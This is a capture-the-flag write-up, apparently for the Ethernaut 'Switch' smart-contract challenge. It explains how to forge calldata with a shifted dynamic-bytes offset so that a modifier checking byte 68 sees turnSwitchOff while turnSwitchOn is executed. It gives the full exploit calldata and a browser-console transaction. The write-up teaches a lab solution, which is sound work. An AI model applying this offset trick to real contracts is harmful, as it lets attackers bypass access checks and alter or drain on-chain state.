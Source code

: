 ```bash
cast sig "turnSwitchOn()"
=> 0x30c13ade

cast sig "turnSwitchOff()"
=> 0x20606e15
```

Now, why is the `onlyOff` modifier targetting the position 68?

- The first 4 bytes are the function selector;
- The next 64 bytes are the offset and the length of the data;

So the data, which is the function selector, starts at the 68th byte. What if we play with the offset and tell the function that the data starts at position 96 instead?

```java
function selector turnSwitchOn:
30c13ade

offset: (96-byte instead of 68-byte)
0000000000000000000000000000000000000000000000000000000000000060

extra blank 32-byte:
0000000000000000000000000000000000000000000000000000000000000000

function selector turnSwitchOff at position 68:
20606e1500000000000000000000000000000000000000000000000000000000

data length (4-byte):
0000000000000000000000000000000000000000000000000000000000000004

data containing the function selector that will be called:
76227e1200000000000000000000000000000000000000000000000000000000
```

And here is the output:

> 0x30c13ade0000000000000000000000000000000000000000000000000000000000000060000000000000000000000000000000000000000000000000000000000000000020606e1500000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000476227e1200000000000000000000000000000000000000000000000000000000

The `turnSwitchOn()` function selector is positionned at position 68, however, it is not relevant anymore as we are telling the function that the data starts at position 96 instead!
We can finally call the `flipSwitch()` function to toggle the switch on!

## Solution

### In the browser's console:

```javascript
await sendTransaction({
  from: player,
  to: instance,
  data: "0x30c13ade0000000000000000000000000000000000000000000000000000000000000060000000000000000000000000000000000000000000000000000000000000000020606e1500000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000476227e1200000000000000000000000000000000000000000000000000000000",
});
```
